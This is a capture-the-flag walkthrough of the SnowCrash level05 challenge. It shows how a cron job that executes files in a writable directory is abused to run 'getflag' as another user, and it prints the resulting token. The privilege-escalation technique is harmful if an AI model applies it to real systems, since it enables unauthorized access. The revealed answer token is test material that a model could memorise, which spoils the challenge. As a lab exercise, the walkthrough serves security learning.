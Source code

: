 ### Exploit

Immediately after connecting into `level05`, we're welcomed with:
```
	level05@172.20.10.3's password:
	You have new mail.
```
Cool, I wonder who this might be... This is a decisive clue, as we now know the exploit's got something to do with crontab. 
Let's check our new email.

```
	level05@SnowCrash:/var/mail$ cat level05
	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
The email says a task executing `openarenaserver` is called every two minutes by user `flag05`. Now, what does this binary file do exactly?

```
	level05@SnowCrash:/usr/sbin$ cat openarenaserver
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done
```
Roughly speaking, this script will execute every file found in the given path `/opt/openarenaserver/` every two minutes. Said file is deleted after execution. This is great news, as we've got writing rights on this repository and our script will be executed under the pretence of user `flag05`. Because `flag05`'s got execution rights on the command `getflag`, this is what the exploit should look like.

```  
	level05@SnowCrash:/opt/openarenaserver$ echo "getflag >> /tmp/flag05" >> script
	level05@SnowCrash:/opt/openarenaserver$ cat script
	getflag >> /tmp/flag05
	level05@SnowCrash:/opt/openarenaserver$ ls
	script
	level05@SnowCrash:/opt/openarenaserver$ ls
	level05@SnowCrash:/opt/openarenaserver$ cat /tmp/flag05
	Check flag.Here is your token : viuaaale9huek52boumoomioc
 ```
 
 Nice work! 
 
